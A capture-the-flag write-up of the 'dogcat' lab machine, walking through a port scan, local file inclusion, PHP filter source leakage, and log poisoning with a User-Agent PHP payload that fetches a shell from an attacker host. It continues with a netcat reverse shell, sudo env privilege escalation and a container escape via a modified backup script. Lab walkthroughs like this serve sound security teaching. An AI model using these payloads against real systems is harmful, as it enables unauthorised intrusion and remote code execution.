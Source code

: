 # dogcat

We start with the port scan using nmap

`nmap -sC -sV 10.10.1.190` 

Finds 2 open ports. SSH running on port 22 and web server on port 80.

![image.png](image.png)

Fuzzing the website for directories reveals a page named `flag.php` , very interesting one. We leave it there for the time being and come back for it later.

![image.png](image%201.png)

![image.png](image%202.png)

The webpage seems to be minimal with two buttons that generate an image of either a dog or a cat.

![image.png](image%203.png)

Looking at the URL, we can see the possibilities of LFI.

`http://10.10.1.190/?view=dog`

Through trial and error, we discover that the URL must contain either the keyword `cat` or `dog`—likely due to specific functionality in the backend code. When we test the following URL, we receive an error.

`http://10.10.1.190/?view=cat/../../../../../../../../etc/passwd`

![image.png](image%204.png)

The error reveals that the file name has been appended with `.php` extension. Next we try the PHP filter wrapper exploitation to get the source code for `index` .

`http://10.10.1.190/?view=php://filter/read=convert.base64-encode/cat/resource=index`

![image.png](image%205.png)

Decoding it using cyberchef reveals the mechanism implemented behind the scene. The code confirms our initial findings: URLs must include either "cat" or "dog", and the extension `.php` is automatically appended.

```php

        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

From our initial directory fuzzing, we discovered a page named `flag.php`. Let's attempt to access this page.

![image.png](image%206.png)

Decoding it gives us the first flag. 

![image.png](image%207.png)

Using our gathered information, we attempt to access the `/etc/passwd` file. To prevent the automatic extension from being added, we pass an empty extension parameter `ext=`.

![image.png](image%208.png)

Not much information was gathered from here.

After researching, we discover log poisoning as a potential attack vector. We decide to try this technique by using the User-Agent method to deliver our payload to the server. Using Burp Suite, we capture a request and modify its User-Agent header to contain our payload.

`<?php file_put_contents('shell.php',file_get_contents('http://{}Attacker ip/shell.php')); ?>`

![image.png](image%209.png)

To execute this successfully, we need to serve the reverse shell file from our local server. After sending the request, monitor for completed GET requests.

![image.png](image%2010.png)

Once complete, set up netcat listener on the port configured in the script and use the browser to access `http://{machine ip}/shell.php`.

![image.png](image%2011.png)

Once inside the machine we find the second flag at `/var/www/` .

![image.png](image%2012.png)

Next, we run `sudo -l` to identify any commands we can exploit to obtain a root shell. 

![image.png](image%2013.png)

It reveals we can execute `/usr/bin/env`  as root without password.

Searching for "env" on GTFOBins reveals the command needed to obtain a root shell.

![image.png](image%2014.png)

![image.png](image%2015.png)

Subsequently we find the third flag.

![image.png](image%2016.png)

Hold on—there's one more flag to find. Looking at the room description, we see a mention of getting out of a container. When running the `hostname` command, we get an alphanumerical value. If this were a regular machine, it would have been named something like "dogcat" instead.

![image.png](image%2017.png)

While searching through the directories for clues, we discover a `backup.sh` file in the `/opt` directory. It's backing up from `/root/container`, but no such folder exists in the root directory. This suggests it might be referring to the host machine. The backup file generated has a very recent timestamp compared to the script, which means it might be running at regular intervals. We modify the code in `backup.sh` to get a reverse shell back to our machine.

![image.png](image%2018.png)

Now we have a root shell on the host machine and the final flag.

![image.png](image%2019.png)
